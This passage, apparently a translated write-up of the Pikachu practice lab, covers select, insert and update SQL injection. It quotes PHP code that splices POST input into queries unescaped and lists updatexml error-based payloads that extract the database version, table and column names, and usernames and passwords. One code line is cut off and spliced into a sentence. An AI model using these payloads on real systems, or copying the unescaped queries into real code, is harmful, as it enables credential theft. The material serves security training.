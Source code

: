          $html.="<p class='notice'>The username you entered does not exist, please re-enter!</p>";
     }
}
exploit

Referring to the code, the character type is used here and no similar query is used, but this is not important, the key is to construct a closed

payload: ' or '1' = '1#

"insert/update" injection
Insert injection means that the front-end registration information will eventually be inserted into the database by the background through the insert operation. When the background receives the front-end registration data, it does not do anti-SQL injection processing, so that the front-end input can be directly spliced with SQL into the back-end insert related content. , leading to insert injection.

Server-side core code

if(isset($_POST['submit'])){
     if($_POST['username']!=null &&In the above search-type injection, it demonstrates that the select class reports an error to obtain information, and insert and update are actually similar

Test the insert injection first, enter ' on the registration page to view the observation of the back-end feedback, and learn that the submitted content has participated in splicing in the background by observing the error report.



Version 1' or updatexml(1,concat(0x7e,(version())),0) or'')#

Table name 1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#



The old rules, the number after changing the limit

Field name 1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#



The old rules, the number after changing the limit

Data 1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#



Data 1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#



Test update below

Server-side core code

if(isset($_POST['submit'])){
     if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
// $getdata=escape($link, $_POST);

         //Unescaped, form injection, sql operation type is update
         $getdata=$_POST;
         $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email ='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
         $result=execute($link, $query);
         if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
             header("location:sqli_mem.php");
         } else {
             $html1.='Modification failed, please try again';
